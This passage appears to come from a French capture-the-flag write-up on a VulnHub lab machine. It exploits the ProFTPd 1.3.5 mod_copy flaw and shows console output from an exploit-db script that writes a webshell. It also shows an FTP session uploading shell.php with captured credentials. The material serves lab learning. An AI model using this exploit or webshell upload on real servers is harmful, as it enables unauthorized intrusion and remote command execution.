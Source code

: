 ### ProFTPd

Le serveur FTP est vulnérable à la faille `mod_copy`. Une vulnérabilité déjà croisée sur le [CTF Symfonos #2 de VulnHub]({% link _posts/2023-02-20-Solution-du-CTF-Symfonos-2-de-VulnHub.md %}).

Il y a un exploit Python sur exploit-db : [ProFTPd 1.3.5 - mod_copy Remote Command Execution (2) - Linux remote Exploit](https://www.exploit-db.com/exploits/49908)

Cet exploit tente d'écrire un webshell sous la racine web. Pour cela, il génère volontairement une erreur sur le serveur en faisant copier un nom de fichier correspondant à du code PHP puis essaye de copier le fichier d'erreurs (via un descripteur de fichier dans `/proc/self/fd`) vers un fichier `test.php`.

```console
$ python exploit.py 192.168.1.8
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.1.8]

350 File or directory exists, ready for destination name

550 cpto: Permission denied

350 File or directory exists, ready for destination name

250 Copy successful

Exploit Completed
[+] File Written Successfully
[+] Go to : http://192.168.1.8/test.php
```

Mais le fichier obtenu correspondait à `/etc/services`. J'ai essayé différents numéros de file descriptors mais aucun n'a fonctionné.

Une solution possible consiste à d'abord utiliser un accès FTP pour mettre un webshell sur le système :

```console
$ ftp 192.168.1.8
Connected to 192.168.1.8.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.1.8]
Name (192.168.1.8:nico): leia_organa
331 Password required for leia_organa
Password: 
230 User leia_organa logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful
150 Opening ASCII mode data connection for file list
226 Transfer complete
ftp> pwd
Remote directory: /home/leia_organa
ftp> put shell.php*
local: shell.php remote: shell.php
200 EPRT command successful
150 Opening BINARY mode data connection for shell.php
100% |************************************************************************************************************************************************************************************************|    31      720.79 KiB/s    00:00 ETA
226 Transfer complete
31 bytes sent in 00:00 (58.44 KiB/s)
```
